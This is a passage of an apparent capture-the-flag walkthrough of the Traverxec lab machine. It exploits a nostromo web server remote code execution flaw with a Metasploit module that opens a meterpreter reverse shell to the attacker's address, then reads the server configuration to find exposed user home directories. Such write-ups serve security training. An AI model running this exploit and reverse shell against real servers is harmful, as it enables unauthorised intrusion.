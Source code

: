 If we search for recent vulnerabilities for nostromo, we find CVE-2011-0751. While this vulnerability was originally meant for versions <=1.9.4, it turns out there is a variant of the same vulnerability for versions >=1.9.6.

If we search in Metasploit, we find a module for this vulnerability that also has support for >=1.9.6 versions.

Let's now set up this exploit, check for compatibility, and exploit.

```bash
msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOST traverxec.htb
RHOST => traverxec.htb
msf5 exploit(multi/http/nostromo_code_exec) > check
msf5 exploit(multi/http/nostromo_code_exec) > set target 1
target => 1
[*] 10.10.10.165:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 10.10.14.120
LHOST => 10.10.14.120
msf5 exploit(multi/http/nostromo_code_exec) > set LPORT 4444
LPORT => 44444
msf5 exploit(multi/http/nostromo_code_exec) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.120:4444 
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Sending stage (3021284 bytes) to 10.10.10.165
[*] Meterpreter session 1 opened (10.10.14.120:4444 -> 10.10.10.165:53586) at 2020-01-20 17:12:05 -0500
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > 
```

Let's take a look again at the nostromo server. Normally we can expect web servers to host from `/var/www` but this one is from `/var/nostromo` indicating some custom configuration.

```bash
meterpreter > cd /var/nostromo/conf
meterpreter > cat nhttpd.conf
...
```

Looking at sample configuration files online and comparing to this, we see an interesting difference at the bottom.

```bash
# HOMEDIRS [OPTIONAL]
homedirs		    /home
homedirs_public		public_www
```

The homedirs functionality is usually commented out but here it is being used. Looking at the [nhttpd documentation](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), we see that this enables us to view users' home directories by using `/~user`. If we go to `http://traverxec.htb/~david`, we see his private page.